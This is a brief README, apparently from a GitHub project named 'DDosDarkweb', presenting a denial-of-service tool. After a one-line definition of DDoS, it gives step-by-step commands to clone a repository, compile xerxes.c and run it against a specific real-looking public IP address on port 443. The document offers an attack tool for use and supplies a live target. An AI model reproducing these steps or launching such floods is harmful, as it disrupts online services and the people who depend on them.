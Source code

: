 # DDosDarkweb
DDoS Attack means "Distributed Denial-of-Service (DDoS) Attack" and it is a cybercrime in which the attacker floods a server with internet traffic to prevent users from accessing connected online services and sites.

<h3>DDos DarkWeb Tool</h3>

<B> Installation </B>

GIT repositories

    git clone https://github.com/H1R0GH057/Anonymous.git
    
Go to DIRECTORY

     cd Anonymous
     
Execute

      chmod +x *
      
Compile

      gcc -o xerxes xerxes.c
      
      
RUN

     ./xerxes 142.250.196.14 443
